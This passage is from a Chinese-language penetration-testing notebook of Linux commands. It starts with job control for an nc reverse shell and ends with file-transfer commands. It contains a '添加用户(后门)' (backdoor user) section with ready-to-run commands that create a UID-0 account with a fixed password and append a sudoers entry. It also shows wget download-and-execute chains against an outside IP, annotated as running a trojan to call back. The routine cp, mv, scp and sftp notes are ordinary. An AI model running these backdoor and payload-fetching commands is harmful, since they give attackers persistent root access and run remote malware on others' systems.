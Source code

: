 fg<br />将后台中的命令调至前台继续运行。如果后台中有多个命令，可以用fg %jobnumber（是命令编号，不是进程号）将选中的命令调出。  

比如nc反弹shell的时候，可以ctrl + z ，然后看jobs，这个时候进程还在的<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1650035315887-2e3629c0-352f-40e7-bc22-ed239d58bf0a.png#clientId=uca38b590-6a42-4&from=paste&height=315&id=u7e4a215e&originHeight=299&originWidth=458&originalType=binary&ratio=1&rotation=0&showTitle=false&size=17802&status=done&style=none&taskId=uc3c1a86e-cbca-4cb9-acda-c036cfe9b22&title=&width=482.3999938964844)<br />然后重新进入，使用fg %<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1650035354505-62a80a1f-d5c6-4915-99d0-bafe5287d8bb.png#clientId=uca38b590-6a42-4&from=paste&height=283&id=u0534e225&originHeight=240&originWidth=396&originalType=binary&ratio=1&rotation=0&showTitle=false&size=13533&status=done&style=none&taskId=ucffb456c-a6e5-4fc7-8e7e-b5ce976c84b&title=&width=466.8000183105469)

<a name="Et1WW"></a>
### 添加用户(后门)
需要输入两次  添加以python3为用户名、Qax@123为密码的root权限账号<br />useradd -p `openssl passwd -1 -salt 'salt' Qax@123` python3 -o -u 0 -g root -G root -s /bin/bash -d /home/python3

useradd mysql1 <br />echo mysql1:AaBb987 | chpasswd<br />echo "mysql1 ALL=(ALL) ALL" >> /etc/sudoers  <br />  
<a name="zs7Ja"></a>
### 复制和移动
cp -r dir1 dir2 表示将dir1及其dir1下所包含的文件复制到dir2下<br />cp 1.txt /root/ 表示将1.txt复制到root文件夹下<br /> <br />mv 1.txt /root/ 表示将1.txt移动到root文件夹下
<a name="1Z4tG"></a>
### 上传和下载、文件传输
上传<br />Xshell的sftp     ![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611332698520-a314e760-6247-41ac-adf2-ddf386064b43.png#height=24&id=ZpiO9&originHeight=48&originWidth=866&originalType=binary&ratio=1&rotation=0&showTitle=false&size=22338&status=done&style=none&title=&width=433)<br />Put 本地windows路径<br />下载<br />输入Lcd 然后选择下载到本地的路径<br />sftp:/> get /root/feng/1.txt 要下载的文件<br /> <br /> <br />rz sz (前提是需要安装lrzsz包)<br />rz是上传<br />sz 文件名字<br /> 


SCP<br />1、将本机文件复制到远程服务器192.168.10.10的home目录<br />scp /home/local_test.zip [root@192.168.10.10:/home/](mailto:root@192.168.10.10/home/)<br />2、将远程服务器remote_test.zip文件复制到本地的/home目录<br />scp [root@192.168.10.10:/home/remote_test.zip /home/](mailto:root@192.168.10.10:/home/remote_test.zip%20/home/)<br />3、在本机操作另外两台服务器之间复制文件<br />scp -3 root@192.168.10.10:/root/filename [root@192.168.10.11:/home/](mailto:root@192.168.10.11:/home/)<br /> 
<a name="XIPSH"></a>
#### wget 下载并执行的方式
wget [https://abc.cn/x86_64.rpm](https://abc.cn/x86_64.rpm)

把文件下载到/tmp路径下，成功了就执行命令<br />wget [http://xxx/2.txt](http://121.4.236.95:8081/2.txt) -P /tmp/ && cat /tmp/2.txt

把文件下载到/tmp路径下，无论成功与否都会执行后者<br />wget [http://xxx/2.txt](http://121.4.236.95:8081/2.txt) -P /tmp/ || cat /tmp/2.txt<br />      || /tmp/test2   运行马子上线<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1622693807624-00700181-c96b-4bb5-8b47-ae78e92676a5.png#height=168&id=bWxLA&originHeight=168&originWidth=691&originalType=binary&ratio=1&rotation=0&showTitle=false&size=77457&status=done&style=none&title=&width=691)

<a name="gjNz9"></a>
#### nc传输文件
接收文件的命令：<br />nc -lvvp 7777 > toprcms.war
